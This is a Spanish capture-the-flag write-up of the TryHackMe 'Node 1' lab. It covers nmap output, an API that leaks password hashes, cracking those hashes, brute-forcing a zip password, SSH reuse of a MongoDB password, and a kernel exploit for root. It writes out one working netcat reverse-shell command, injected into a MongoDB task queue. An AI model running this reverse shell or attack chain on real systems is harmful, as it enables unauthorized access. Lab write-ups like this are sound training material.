









TryHackMe - Node 1

Contenido
| Titulo | Node 1 |
|---|---|
| Room | Node 1 |
| Info | Node is a medium level boot2root challenge, originally created for HackTheBox. |
| Puntos | 617 |
| Dificultad | Media |
| Maker | coderj |
NMAP
Escaneo de puerto tcp, en el cual nos muestra varios puertos abiertos.
# Nmap 7.80 scan initiated Wed Feb 26 23:37:37 2020 as: nmap -p- -T4 -sV -o nmap_scan 10.10.27.51
Nmap scan report for 10.10.27.51
Host is up (0.22s latency).
Not shown: 65533 filtered ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
3000/tcp open http Node.js Express framework
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Feb 26 23:43:56 2020 -- 1 IP address (1 host up) scanned in 378.90 seconds
HTTP - Puerto 3000
En el puerto 3000 encontramos una pagina que nos muestra tres usuarios.

Al analizar el codigo fuente de la pagina nos encontramos con los controladores de la pagina.

En el controlador de home.js encontramos una ruta de una api a la que hace una solicitud.

Hacemos una consulta a la ruta y nos devuelve tres usuarios, contraseñas encriptadas y que los usuarios no son administradores:

Utilizamos crackstation.net para crackear las contraseñas, solo obtuvimos la contraseña de los primeros dos usuarios:

En el controlador profile.js encontramos que existe otra ruta en la que se hacen consultas de un usuario especifico pero al hacer una consulta sin un usuario nos muestra nuevamente la lista de usuarios con su contraseña, pero en esta respuesta nos aparece un usuario nuevo el cual es administrador:

Hash crackeada:

Utilizamos las credenciales del usuario nuevo y nos redirige a una pagina nueva en la que podemos descargar un archivo: 
El archivo contiene una cadena codificada en base64, al decodificarla vemos que es un archivo zip, pero este esta protegido por contraseña: 
Utilizamos fcrackzip para hacer un ataque de fuerza bruta: 
USER - mark
Al descomprimir el archivo zip encontramos que, es un backup de la ruta donde se encuentran los archivos de la pagina (/var/html/myplace/). Vemos la contraseña de la conexion de mongodb con el usuario mark, utilizamos estas credenciales para iniciar sesion en el servicio SSH.

Obtenemos una shell con el usuario mark.

USER - tom
En la carpeta /var/scheduler encontramos una aplicacion la cual contiene una base de datos distinta, y la cual se ejecuta cada 30 segundos, ademas de eso vemos entre los procesos en ejecucion que esta aplicacion la esta ejecutando el usuario tom. La aplicacion realiza una iteracion en la tabla tasks y la ejecuta, luego la elimina.

Insertamos una shell inversa en la tabla tasks (coleccion):
db.tasks.insert({ "cmd": "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.1.72 1338 >/tmp/f" });

Despues de 30 segundos se ejecuta nuestra shell inversa y obtenemos una shell con el usuario tom y nuestra flag user.txt. 
PRIVILEGE ESCALATION
Vemos la version del kernel y buscamos la misma en searchsploit, vemos que existe un exploit que nos puede ayudar a escalar privilegios.

Lo compilamos, descargamos en la maquina, le damos permisos de ejecucion, lo ejecutamos y obtenemos una shell con usuario root y nuestra flag root.txt. 